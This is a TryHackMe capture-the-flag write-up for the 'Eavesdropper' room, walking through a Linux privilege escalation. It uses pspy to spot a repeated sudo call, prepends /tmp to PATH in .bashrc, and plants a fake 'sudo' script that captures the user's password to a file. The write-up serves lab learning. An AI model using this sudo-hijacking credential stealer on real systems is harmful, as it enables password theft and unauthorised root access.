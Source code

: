 ```yaml
---
Platform: TryHackMe
Difficulty: Medium
Status: Rooted/Finished
Type: Machine
Title: Eavesdropper
Category: 
tags: 
CreatedOn: 04-12-2023
---
```

# Eavesdropper

In this writeup we are going to solve the Eavesdropper room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/eavesdropper](https://tryhackme.com/room/eavesdropper)

  

Let’s Start 🙌

  

First Start the machine and download the ssh key. After downloading ssh key, login as frank using this SSH key. The command is : `ssh -i <SSH_Key> frank@<TARGET_IP>`

  

![Untitled.png](Eavesdropper/assets/Untitled.png)

  

Our task is to escalate our privileges as root and to read the root flag. For that first we try to take a look at the processes that are running in the target machine. For this purpose I am going to use the tool [pspy](https://github.com/DominicBreuker/pspy). You can also use other tools such as [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) for this purpose.

Download the tool to your local machine. We have to transfer this file from our local machine to the target machine because tryhackme rooms don’t have an internet connection. So, we will first download the pspy tool to our local machine. After downloading, create a Python simple HTTP server in the same directory where you downloaded the pspy tool. The command for creating a Python simple HTTP server is: `python -m http.server`. This command will host a simple web server with your current working directory as the root of the web server, which is accessed by your machine's IP address on port `8000`.

  

![Untitled 1.png](Eavesdropper/assets/Untitled%201.png)

  

Now you can use the `wget` command to download the pspy tool to the target machine. Since, you are connected to tryhackme via the openvpn, which implies that your target machine can reach your local machine via the openvpn tunnel and vice versa. By this way we can download the pspy tool to the target machine from our local machine.

The command is : `wget http://<tun0-IPaddress>:8000/pspy32`

  

![Untitled 2.png](Eavesdropper/assets/Untitled%202.png)

  

Now update the permissions of the pspy tool to executable and run the pspy tool.

  

![Untitled 3.png](Eavesdropper/assets/Untitled%203.png)

  

Now take a look at the output of the pspy tool, did you notice anything fishy!!!.

  

![Untitled 4.png](Eavesdropper/assets/Untitled%204.png)

  

You can see that a process with the process ID `1844` executes the command `sudo cat /etc/shadow`. And you can also see that this process is repeating again and again. Here the user `frank` uses the `sudo` command to run this, so he must have to enter the root password to run this command. We can capture this process to find the root users password. How are we going to capture this password???

We know that the `sudo` command is located in the `/bin` folder. Take a look at the `PATH` environment variable by using the command : `echo $PATH`.

  

![Untitled 5.png](Eavesdropper/assets/Untitled%205.png)

  

For every command or tool we use in the Linux terminal, the Linux system first checks for that particular command or tool file in the order that is mentioned in the `PATH` variable i.e, if we use the command `sudo`, the Linux system first checks the `/usr/local/sbin` directory for the file `sudo`. If it’s not found then it will search in the next directory `/usr/local/bin`. Similarly it will check all the directories for the file `sudo` in the order mentioned in the `PATH` variable until it finds the file.

  

We can take advantage of this characteristic of the Linux system to seek the root users password. This is known as [`Sudo Hijacking`](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking). Now we will a variable named `PATH` at the beginning of the `.bashrc` file that is located in the `/home/frank` directory with the following path: `/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`.

  

![Untitled 6.png](Eavesdropper/assets/Untitled%206.png)

  

By doing this we make the Linux system to first look into the `/tmp` directory for the `sudo` file. Now we can create a fake `sudo` executable file in the `/tmp` directory, which will steal the credentials. By this way when the user `frank` tries to execute the `sudo` command, instead of the actual `sudo` file that is located in the `/bin` directory, the `sudo` file located in the `/tmp` that we created will be executed. For this I have used the following bash script for capturing the password.

  

```
#! /bin/bash

read -sp "[sudo] password for frank: " password

echo $password > /home/frank/password.txt
```

  

![Untitled 7.png](Eavesdropper/assets/Untitled%207.png)

  

This script is saved in the name `sudo` in the `/tmp` directory. After saving the file, we have to escalate the files permission to executable by using the following command : `chmod +x sudo`

  

After completing these steps successfully, if you check the `/home/frank` directory you can find the `password.txt` file. If you read the file using the `cat` command you will find the flag.

  

![Untitled 8.png](Eavesdropper/assets/Untitled%208.png)

  

Now you got the password for escalating your privileges as the root user. Thus, escalate your privileges as root user using the found password and check the `/root` directory, you can find the flag!!!!

  

![Untitled 9.png](Eavesdropper/assets/Untitled%209.png)

  

Thank You!!!!